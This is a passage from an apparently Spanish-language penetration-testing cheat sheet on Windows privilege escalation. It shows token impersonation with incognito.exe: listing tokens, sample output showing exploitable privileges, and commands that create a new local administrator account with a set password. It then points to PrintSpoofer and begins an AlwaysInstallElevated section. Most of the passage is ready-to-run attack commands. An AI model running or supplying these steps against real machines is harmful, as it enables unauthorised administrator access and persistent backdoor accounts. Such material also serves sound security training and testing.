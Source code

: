```bash
unzip incognito2.zip
```

pasamos el **incognito.exe** a la maquina windows .

verificamos tokens para impersonalizar:

```bash
list_tokens -u
```

si en el resultado vemos **SeImpersonatePrivilege**, **SeDebugPrivilege** y el token **NT AUTHORITY\\SYSTEM** podemos crear un usuario como administrador:

```bash
#ejemplo output vulnerable
Delegation Tokens Available
============================================
alfred\bruce 
alfred\chris 
IIS APPPOOL\DefaultAppPool 
NT AUTHORITY\IUSR 
NT AUTHORITY\LOCAL SERVICE 
NT AUTHORITY\NETWORK SERVICE 
NT AUTHORITY\SYSTEM 

Impersonation Tokens Available
============================================
NT AUTHORITY\ANONYMOUS LOGON 

Administrative Privileges Available
============================================
SeAssignPrimaryTokenPrivilege
SeCreateTokenPrivilege
SeTcbPrivilege
SeTakeOwnershipPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeRelabelPrivilege
SeLoadDriverPrivilege
```

crear un usuario administrador:

```bash
incognito.exe add_user chicolate chicolate123
incognito.exe add_localgroup_user Administrators chicolate
```

**WINDOWS 10**

- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

## AlwaysInstallElevated
